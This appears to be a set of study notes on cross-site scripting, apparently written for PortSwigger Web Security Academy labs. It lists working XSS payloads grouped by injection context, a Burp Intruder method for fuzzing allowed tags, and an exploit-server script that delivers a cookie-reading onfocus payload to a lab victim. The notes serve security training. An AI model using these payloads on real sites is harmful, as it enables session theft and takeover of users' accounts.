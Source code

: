 <br><br>

* **Depending on that context, the following payloads can be used to break out of the context and potentially execute XSS:**

<br>

## XSS between HTML tags and DOM XSS

### No encoding implemented on the injected data

* If injected input is not be validated or encoded, we can simply use the standard XSS payloads below:

```html
<script>alert(1)</script>
```
```html
<img src=x onerror=alert(1)>
```

<br>

### Tags are being encoded but not recursively

* The application may be encoding the injected tags, but not in a recursive way.  The \<test\> tag will be properly encoded and rendered as data, but the rest of the payload will be executed as code.

```html
<test> <img src=x onerror=alert(1)>
```

<br>

### Tags are blocked except for custom ones

* If the application is blocking some common tags, we can inject custom ones.  Portswigger cheat sheet can help to have a list to fuzz.

* We can use Burp Intruder to fuzz and check which tags and event handlers are allowed.

  * Example:  \<FUZZ\> , \<body FUZZ="test"\> 

```html
<input2 onmouseover=alert(1)>Test</input2>
```

```html
<body onresize="print()">
```

* Submit Payload to the Victim user using Exploit Server: (encode special characters)

```html
<script>
      location = 'https://your-lab-id.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```
